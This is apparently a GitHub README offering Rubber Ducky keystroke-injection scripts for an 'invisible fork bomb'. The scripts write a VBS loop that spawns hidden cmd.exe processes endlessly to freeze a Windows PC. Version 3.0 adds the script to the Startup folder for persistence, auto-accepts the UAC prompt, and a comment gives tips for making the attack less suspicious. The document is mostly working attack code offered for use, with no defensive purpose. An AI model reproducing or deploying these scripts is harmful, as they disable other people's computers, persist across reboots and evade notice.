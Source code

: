 # Invisible Fork Bomb for Arduino and Ducky
**V. 2.0:** The script creates and starts a vbs that executes exponentially cmd.exe without visible windows (Fork bomb -> Freezes the PC).

**V. 3.0:** The same, but it adds the vbs to the startup folder.

**Author:** BlueArduino20

# Code for Rubber Ducky (2.0)

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start forkb.vbs && exit
REM You can add this: ">null ping localhost -n 5 && " before "start" to make a (5 sec) delay before the vbs execution. (By this way it's less suspicious)
ENTER
</pre></code>

# Code for Rubber Ducky (V. 3.0) (It adds the file to the startup)

This code adds the .vbs file to the startup:

<pre><code>DELAY 1000
REM ^ You should set more delay time if your computer is slow or if the script doesn't work correctly.
CTRL ESC
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 400
ALT y
REM ^ UAC Bypass
DELAY 500
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\FB.vbs"
REM ^ Setup the .vbs on startup folder
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
STRING start FB.vbs && exit
ENTER
</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Invisible_fork_bomb/blob/master/Invisible_fork_bomb.ino">Invisible_fork_bomb.ino<a>

# Code for Arduino (V. 3.0) (It adds the file to the startup)

<a href="https://github.com/BlueArduino20">Comming soon<a>

